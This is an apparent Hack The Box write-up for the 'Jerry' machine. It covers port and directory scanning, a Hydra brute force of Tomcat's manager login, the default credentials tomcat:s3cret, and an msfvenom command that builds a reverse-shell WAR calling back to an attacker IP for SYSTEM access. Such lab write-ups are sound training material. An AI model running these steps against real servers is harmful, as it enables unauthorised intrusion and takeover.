









# HTB - Jerry

#### Ip: 10.10.10.95
#### Name: Jerry
#### Rating: Easy

------------------------------------------------



### Enumeration

As always, lets kick things off with an Nmap scan covering all TCP ports. Because I'm not worried about traffic or the 'noise' I'm making, I'm adding the `--min-rate 10000` attribute to speed things along:

```text
┌──(ryan㉿kali)-[~/HTB/Jerry]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.95   
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-22 12:25 CDT
Nmap scan report for 10.10.10.95
Host is up (0.066s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
```

Ok interesting, looks like only one port open, which is pretty rare for a Windows machine. Let's go ahead and emumerate a bit further and port scan with the `-sC` and `-sV` flags set to enumerate versions and also throw some basic Nmap scripts at it:



Looks like this is running Apache Tomcat, which usually hosts a login form in the `/manager` directory. Lets go ahead and kick off a directory fuzzing scan to see if there is anything interesting we can find:

```text
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Jerry]
└─$ gobuster dir -u http://10.10.10.95:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.95:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/04/22 12:31:07 Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
```

Great! Navigating to the /manager directory in the browser I'm met with a login prompt:



### Brute Forcing

Based on past experience I know that Tomcat has a few different default passwords that are used during setup, and sometimes Administrators fail to change these credentials. Lets use Hydra to try and brute force these credentials, but rather than just using the standard rockyou.txt wordlist, in this case I'll try something more targeted to the specific service. There is a phenomenal wordlist package called SecLists available for download at https://github.com/danielmiessler/SecLists. This package contains multiple lists for directory fuzzing, wordlists for usernames and passwords, and more. Specifically of interest for us on Jerry, it also contains a list featuring default credentials for Tomcat. 

To me it always makes sense to try more targeted wordlsists first, and for a couple different reasons.

1. Just for the sake of my own time. Take a look at the wordcounts for the Tomcat Default Credentials list vs something like rockyou:



Hydra can blaze through the Tomcat list n early instantly, while rockyou would take hours and hours. Starting more simple and targeted and increasing your net as needed seems like the best path here. Not to mention that highly specific credentials may not even exist at all in rockyou.

2. While not relevant on a HTB machine, throwing something like rockyou against a login page would generate a HUGE amount of network traffic and would likely be detected quickly. While brute forcing isn't stealthy by nature, the logic follows that fewer login attempts generates less traffic and noise, which is less likely to be detected.

So all that said lets kick off Hydra against the login page:



Nice! Hydra has found two possible sets of credentials. The first pair of admin:admin turned out to be a false positive (Hydra is great, but not perfect after all), but the credentials tomcat:s3cret worked great. We can now login to the /manager page. From here it should be a breaze to get a working shell on the machine.

Scrolling down the page we see  there is an option to upload and deploy a .war file.



This will be the ticket onto the machine. Lets go ahead and generate a reverse shell .war file using msfvenom:

### Exploitation

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=443 -f war > rev_shell.war
```

After uploading the file and deploying it, I can see my rev_shell in the applications list. Making sure I have a netcat listener set up on port 443, I can catch a shell back by simply clicking on rev_shell, which forwards me to http://10.10.10.95:8080/rev_shell/.

Taking a look at my listener I see it worked, and I now have a shell as nt\authority system, which also means no privilege escalation needed!



Navigating to the Administrators desktop I see that both flags are in the '2 for the price of 1.txt' file:



### Something Extra

Funnily enough, in this case, brute forcing wasn't even needed. After a failed login attempt at /manager, we are redirected to a 403: Access Denied page, which contains some 'helpful' instructions:



We can see here the default (but working) credentials listed as an example. To me, it always makes sense to start simple and throw a quick admin:admin or admin:password at a login page, or to try any example credentials you find before kicking off a brute forcing or dictionary attack.

### Key Takeaways

- As a user or administrator, make sure you always change your default credentials when setting up services. Conversely, as an attacker, it's always a good idea to try known default credentials or other easy quick wins (root:root, admin:passwd, etc), before getting too technical or trying nosiy methods like brute forcing. 

-  On a similar note, it always makes sense to try simpler, more targeted attacks before resorting to more complex and less specific attack vectors. Cast a small net at first, and increase in complexity and in scope only as needed.

- Lastly, SecLists is your friend, and very much worth downloading and exploring.

Thanks for following along!

-Ryan

---------------------------------------------------------------------------------------------
